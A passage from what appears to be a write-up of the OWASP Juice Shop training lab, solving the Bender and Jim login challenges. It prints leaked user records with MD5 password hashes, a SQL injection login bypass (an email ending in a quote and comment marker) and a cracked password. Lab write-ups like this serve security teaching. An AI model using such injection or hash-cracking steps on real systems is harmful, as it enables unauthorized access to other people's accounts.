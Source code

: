 > Log in with Bender's user account.

We can use the same hash-finding trick on the `/#/administration` page as before.

```
HTTP/1.1 200 OK
[...]

{"status":"success","data":{"id":3,"email":"bender@juice-sh.op","password":"0c36e517e3fa95aabf1bbffc6744a4ef","createdAt":"2018-08-02T00:52:15.759Z","updatedAt":"2018-08-02T00:52:15.759Z"}}
```

A quick Google'ing of 0c36e517e3fa95aabf1bbffc6744a4ef for the most part only returns posts related to Juice Shop, so I'm going to try something else. If the plain text value is not generally available it seems more likely that this challenge was not intended to be solved via the hash.

We can try repeating the SQLi used on the admin account. Log in with any password and `bender@juice-sh.op'--`.

![bender](/img/owasp-juice-shop-v7.3.0/juice047.png)

Seems like this trick can be used with any account, not sure why there are multiple challenges for it.

# Login Jim

> Log in with Jim's user account.

Back to the hash method for Jim (mostly because his password is awesome).

```
HTTP/1.1 200 OK
[...]

{"status":"success","data":{"id":2,"email":"jim@juice-sh.op","password":"e541ca7ecf72b8d1286474fc613e5e45","createdAt":"2018-08-02T00:52:15.759Z","updatedAt":"2018-08-02T00:52:15.759Z"}}
```

![jim](/img/owasp-juice-shop-v7.3.0/juice048.png)

ncc-1701 - Jim you big nerd.

![jim](/img/owasp-juice-shop-v7.3.0/juice049.png)
